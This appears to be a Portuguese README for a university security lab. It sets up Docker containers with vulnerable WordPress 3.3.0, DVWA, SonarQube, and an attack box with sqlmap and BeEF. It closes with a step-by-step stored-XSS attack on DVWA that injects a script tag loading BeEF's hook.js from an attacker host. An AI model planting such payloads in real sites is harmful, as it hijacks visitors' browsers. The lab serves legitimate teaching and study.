 # 41ASO-SegInfo
Estudo sobre ataques de SQLi e XSS com PoC em sqlmap e BeeF. Turma `41ASO`, disciplina `ARCHITECTURE FOR MASTERING STRATEGIC AND EMERGING TECHNOLOGY INNOVATION`, professor `Ricardo Giorgi`.

## Pré-requisito
- [Docker](https://docs.docker.com/get-docker/)
- [Docker Compose](https://docs.docker.com/compose/install/)
- Baixar o arquivo de configuração https://github.com/lmussio/41ASO-SegInfo/blob/master/docker-compose.yml

## WordPress
Foi criado um container de WordPress na versão 3.3.0, obtido através da referência [WordPress Releases](https://wordpress.org/download/releases/).

Para construir a imagem do container de WordPress 3.3.0, é necessário realizar o comando `docker-compose build wordpress`.

Para executar o sistema WordPress, é necessário realizar os seguintes comandos:
```
docker-compose up -d db
docker-compose up -d wordpress
```
Enquanto o container de MariaDB não finalizar sua inicialização, o container do WordPress ficará restartando.

Realizamos o backup do diretório `/var/www/html/`, localizado em `wordpress/site/`, onde efetuamos a montagem desse diretório para o container, a fim de disponibilizar o ambiente preparado para o estudo.

Também realizamos o backup da base de dados `wordpress`, localizado em `wordpress\wordpress.sql`, onde efetuamos a montagem desse arquivo no container de MariaDB, para que seja carregado para o MariaDB durante sua primeira inicialização, trazendo todas as configurações realizadas no WordPress.

Exemplo de comando para realização do backup da base de dados:
```
mysqldump -u admin -padmin --quick --extended-insert wordpress > wordpress.sql
```

### Credenciais WordPress
- Home: `http://127.0.0.1:8889/`
- Página de login: `http://127.0.0.1:8889/wp-login.php`
- Usuário: `admin`
- Senha: `admin`

### Credenciais Base de Dados WordPress
- Host: `db`
- Usuário: `admin`
- Senha: `admin`
- Database: `wordpress`

## DVWA
Para auxiliar no estudo, configuramos um container de DVWA.

Para executar o container do sistema DVWA, é necessário realizar o seguinte comando:
```
docker-compose up -d dvwa
```

Para interagir com o sistema, acessar a URL `http://127.0.0.1:8888/`. Segue referência do [código-fonte](https://github.com/ethicalhack3r/DVWA).

### Credenciais DVWA
- Usuário: `admin`
- Senha: `password`

## SonarQube
Para auxiliar no estudo, configuramos um container de SonarQube, a fim de escanear códigos-fonte, na tentativa de identificação de vulnerabilidades.

Para executar o container do sistema DVWA, é necessário realizar o seguinte comando:
```
docker-compose up -d sonarqube
```
Pode demorar alguns minutos para terminar de inicializar o sistema.

Para interagir com o sistema, acessar a URL `http://127.0.0.1:9000/`.

### Credenciais SonarQube
- Usuário: `admin`
- Senha: `admin`

## SonarQube Scan
Container responsável por escanear os códigos-fonte dos sistemas alvo, e reportar ao SonarQube.

Para construir a imagem do container de scan, é necessário realizar o comando `docker-compose build sonar-scan`.

Garantir que o container do SonarQube está funcionando. Logar no site do container para validar, conforme instruções descritas acima.

Para realizar o scan dos sistemas DVWA e WordPress 3.3.0, realizar o seguinte comando:
```
docker-compose run sonar-scan
```

Para entrar no container de scan, realizar o seguinte comando:
```
docker-compose run sonar-scan bash
```

## Attack
Container contendo ferramentas para ataque dos sistemas alvo.

Para construir a imagem do container de ataque, é necessário realizar o comando `docker-compose build attack`. A construção da imagem é demorada, devido à instalação do framework BeEF.

Para entrar no container de ataque, realizar o seguinte comando:
```
docker-compose run attack bash
```

Para executar a framework BeEF, é necessário realizar os seguintes comandos:
```
docker-compose run attack bash
cd /opt/beef
./beef
```

Adicionalmente, pode-se executar outro `bash` no mesmo container. Para isso, primeiramente obter o nome do container em execução:
```
docker-compose ps
```
Resultando na seguinte saída de exemplo:
```
                Name                               Command               State           Ports
-------------------------------------------------------------------------------------------------------
41aso-seginfo_attack_run_c58f5649e3a3   bash                             Up
```
Agora basta executar o comando `docker exec -it 41aso-seginfo_attack_run_c58f5649e3a3 bash`.

### Credenciais BeEF
- Usuário: `beef`
- Senha: `feeb`

## Realizar ataque com BeEF
Primeiramente, precisaremos conectar na SDN Docker. Para isso, utilizaremos o mitmproxy. Executar o seguinte comando:
```
docker-compose up -d mitmproxy
```

Configurar o proxy da sua máquina ou navegador, para apontar para o IP do host Docker, na porta 8080.
Exemplo em Windows, com Docker Desktop:
```
Painel de Controle\Rede e Internet\Central de Rede e Compartilhamento -> Opções da Internet -> Aba "Conexões" -> Configurações da LAN -> Servidor proxy:
Endereço: 127.0.0.1
Porta: 8080
OK
```

Executar o BeEF e o DVWA. Após executar o BeEF, ele irá te indicar a URL `Hook URL`, com o IP da SDN Docker, onde deveremos copiar essa URL, para compor o código de injeção XSS. Exemplo de URL: `http://10.60.80.100:3000/hook.js`. Exemplo de código de injeção XSS: 
```html
<script src="http://10.60.80.100:3000/hook.js"></script>
```

Acessar o DVWA na URL [http://dvwa/login.php](http://dvwa/login.php) e efetuar o login. Selecionar o item `XSS (Stored)` do menu lateral. Essa página é responsável por listar mensagens enviadas pelos usuários, onde é possível preencher seu nome e a mensagem que deseja enviar. É uma página vulnerável ao ataque do tipo XSS, onde seguiremos os seguintes passos para executar o ataque:
- No campo de texto do `Message`, clicar com botão direito e inspecionar o elemento HTML. Deve aparecer o seguinte código:
```html
<textarea name="mtxMessage" cols="50" rows="3" maxlength="50"></textarea>
```
Aumentar o maxlength para que possamos injetar todo o código necessário:
```html
<textarea name="mtxMessage" cols="50" rows="3" maxlength="500"></textarea>
```
- No campo `Name`, preencher com qualquer informação: `HelloBeEF`.
- No campo `Message`, preencher com o código de injeção gerado:
```html
<script src="http://10.60.80.100:3000/hook.js"></script>
````
- Pressionar o botão `Sign Guestbook`

Toda vez que essa página for acessada, como ela lista as mensagens enviadas, e na última mensagem enviada, contém um código XSS injetado, automaticamente seremos redirecionados à página do BeEF.
